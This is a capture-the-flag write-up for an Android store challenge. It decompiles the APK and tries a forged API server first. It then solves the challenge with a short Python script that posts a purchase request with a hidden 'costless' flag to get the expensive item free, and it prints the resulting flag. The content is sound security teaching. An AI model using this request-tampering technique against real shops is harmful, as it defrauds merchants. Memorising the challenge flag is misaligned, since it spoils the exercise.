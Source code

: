 # dev-release

## Description

Some company dropped it's dev build into production, and afterwards they found out that their profit went negative. Find out how, buy the expensive item, and get the message.

## Code Analysis

The challenge provides an APK named `store.apk`.
Using JADX it is possible to decompile the bytecode and partially reconstruct the java source code.

The mobile app is a simple client-server application in which the user has a starting balance (=1000) and can buy different items.
The flag is one of those but its cost is higher than the starting balance (=10000) and thus the user has no possibility to directly buy it.
The user can manually set the hostname and port exposing the API Server.

![app](./app.png)

The API server interface is defined in the decompiled source code.
```kotlin
public interface StoreApi {
    @GET("/api/balance")
    Object getBalance(Continuation<? super BalanceResponse> continuation);

    @GET("/api/items")
    Object getItems(Continuation<? super List<Item>> continuation);

    @POST("/api/purchase")
    Object purchaseItem(@Body PurchaseRequest purchaseRequest, Continuation<? super PurchaseResponse> continuation);

    @POST("/api/purchase")
    Object purchaseItem1(@Body PurchaseRequest1 purchaseRequest1, Continuation<? super PurchaseResponse> continuation);

    @POST("/api/reset-balance")
    Object resetBalance(@Body Map<String, Integer> map, Continuation<? super BalanceResponse> continuation);
}
```

## Exploit

First approach i tried consists of deploying a custom API server, since i am able to arbitrarily set it inside the application by changing the host and port.
The main idea is to provide a `/api/reset-balance` endpoint that will set a balance >= 10000, disconnect and connect to the legit API server,
hoping that the application is not calling `/api/balance` nor `/api/reset-balance` every time a new connection is set.
This is the forged API server.

```python
from fastapi import FastAPI

app = FastAPI()

@app.get("/")
def read_root():
    return {"message": "Hello, World!"}


@app.get("/api/balance/")
def get_balance():
    return {"balance": 1000}


@app.post("/api/reset-balance/")
def reset_balance():
    return {
        "success": True,
        "newBalance": 1000,
        "message": "Balance reset successfully",
    }

@app.get("/api/items/")
def get_items():
    return [
    {
        "id": 1,
        "name": "Cheap Item",
        "price": 5
    },
    {
        "id": 2,
        "name": "Regular Item",
        "price": 20
    },
    {
        "id": 3,
        "name": "Expensive Item",
        "price": 10000
    },
    {
        "id": 4,
        "name": "Special Item",
        "price": 50
    }
]

# Run the server
if __name__ == "__main__":
    import uvicorn
    uvicorn.run(app, host="0.0.0.0", port=8000)

```

Unfortunately this approach does not work because the `/api/balance` endpoint is called every time a new API Server connection is established.

Giving another look to the decompiled code i found the following:

```kotlin
public PurchaseRequest(int itemId, boolean costless) {
    this.itemId = itemId;
    this.costless = costless;
}
```

This means that it is possible to send purchase requests with a costless=true attribute.

```python
import sys, requests

if len(sys.argv) != 3:
    print("Usage: python solve.py host port")
    sys.exit(1)

host = sys.argv[1]
port = sys.argv[2]

purchase_url = f"http://{host}:{port}/api/purchase"

resp = requests.post(purchase_url, json={"itemId": 3, "costless": True})
print(resp.json())
```

The successful response with the flag

```JSON
{
    "success": true,
    "newBalance": 1000,
    "message": "Acquired ctf{7156172408a468abd0805d6e201646ca6fbf438e06d8b339972e67d02c7273d3} for free"
}
```
